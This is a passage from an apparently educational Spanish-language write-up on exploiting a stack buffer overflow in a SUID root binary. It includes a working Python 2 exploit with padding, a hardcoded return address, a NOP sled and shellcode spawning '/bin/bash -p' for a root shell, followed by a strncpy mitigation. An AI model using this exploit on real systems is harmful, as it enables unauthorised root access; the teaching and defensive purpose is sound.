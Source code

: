 Es simplemente tener en mente esos pasos. Para que se vea mas claro vamos a programarlo en codigo (Python).


Antes que nada lo único que nos falta es generar el&nbsp; `shellcode`&nbsp; de x32 bits que ejecute una &nbsp;`/bin/bash -p`&nbsp;. Podemos genererar nuestro propio shellcode a través de herramientas como msfvenom o nivel manual o podemos coger shellcodes ya generados que ejecuten lo anteriormente mencionado. Este [**shellcode**](https://shell-storm.org/shellcode/files/shellcode-606.html) es compatible.

El exploit en python sería este.

```python
#!/usr/bin/python2
# ESTA EN PYTHON2

from struct import pack

if __name__ == '__main__':

	# junk + EIP + nops + shellcode

	offset = 68
	junk = "A"*offset
	EIP = pack("<I", 0xbfffef10)
	nops = "\x90"*200
	shellcode="\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

	payload = junk + EIP + nops + shellcode

	print payload
```

### Explotación

Para poder desplegar el ataque simplemente debemos de ejecutar lo siguiente y al ser el binario SUID y propietario root cuando se ejecute el shellcode nos ejecutará una shell como root.

![](http://127.0.0.1:4000/assets/img/favicons/StackBased/final.png)


### Recommendation

Evitar las funciones inseguras como strcpy y en su lugar reemplazarla por la función strncpy añadiendolo en el código tal que así.

```c
#include <stdio.h>

void notvulnerable(char *buff) {
    char buffer[64];
    strncpy(buffer, buff, sizeof(buffer));
}

void main (int argc, char **argv) {
    notvulnerable(argv[1]);
}
```
